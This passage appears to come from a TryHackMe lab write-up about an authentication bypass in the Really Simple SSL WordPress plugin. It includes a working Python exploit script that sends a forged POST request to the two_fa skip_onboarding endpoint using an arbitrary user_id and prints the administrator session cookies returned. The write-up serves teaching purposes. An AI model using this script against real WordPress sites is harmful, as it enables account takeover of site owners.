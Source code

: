 A short schematic of this process would look something like this:

<div class="flex justify-center items-center">
  <img
    src="https://github.com/user-attachments/assets/d9f86d73-dac6-4fc6-9a50-dda75d487860"
    alt="image"
    class="h-auto w-auto max-w-full max-h-[232px] object-contain"
  />
</div>


## 2 Exploiting the Vulnerability

Now we will discuss how to actually exploit this backdooor. In short, we need to send a crafted POST request to the vulnerable `/reallysimplessl/v1/two_fa/skip_onboarding` endpoint.

In the attached VM in the TryHackMe room, we find a vulnerable page at the URL `http://vulnerablewp.thm:8080/wp-admin`. If we visit this site, we find it is protected by a login panel. Since we want to gain admin access, the goal is to retrieve credentials for the user with `user_id = 1`.

<center>    
    <img width="521" height="491" alt="image" src="https://github.com/user-attachments/assets/77fa2bfc-4415-4301-bce0-0e604bf3770e" />
</center>

Because we need to forge a custom POST request, we use a short python script to make our lives easier:
```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

# Sending the POST request
response = requests.post(url, json=data)

# Checking the response
if response.status_code == 200:
    print("Request successful!\n")
    
    # Extracting cookies
    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)  # Decode the URL-encoded cookie value
        print(f"Cookie {count}:")
        print(f"Cookie Name: {name}")
        print(f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print("Request failed!")
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
```